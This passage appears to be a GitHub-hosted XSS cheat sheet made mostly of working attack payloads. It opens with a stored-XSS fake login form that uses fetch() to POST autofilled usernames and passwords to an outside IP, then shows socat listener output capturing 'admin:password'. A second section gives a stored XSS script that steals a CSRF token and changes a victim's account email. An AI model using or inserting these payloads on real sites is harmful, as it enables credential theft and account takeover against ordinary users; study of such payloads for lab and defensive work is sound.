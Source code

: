 
---

## XSS to steal username/password
### payload:
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://20.20.20.129',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
```
anyone who views the comments will see a login form. if his browser autofills the username and password fields, they would be posted to the url included in the payload
### output:
```
2022/07/27 15:58:01 socat[253401] N listening on AF=2 0.0.0.0:80
2022/07/27 15:58:11 socat[253401] N accepting connection from AF=2 20.20.20.129:46510 on AF=2 20.20.20.129:80
2022/07/27 15:58:11 socat[253401] N forked off child process 253456
2022/07/27 15:58:11 socat[253401] N listening on AF=2 0.0.0.0:80
2022/07/27 15:58:11 socat[253456] N using stdout for reading and writing
2022/07/27 15:58:11 socat[253456] N starting data transfer loop with FDs [6,6] and [1,1]
POST / HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://meta/
Content-Type: text/plain;charset=UTF-8
Origin: http://meta
Content-Length: 14
Connection: close

admin:password
```

---

## Example: stored XSS to CSRF
### Note: AJAX is used to send a request to the `my-account` page because it's where the `csrf` hidden input is present
### After that, the `csrf` token is sent in the POST request to the `/my-account/change-email` page where it changes the email the value we mentioned `test@test.com`
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
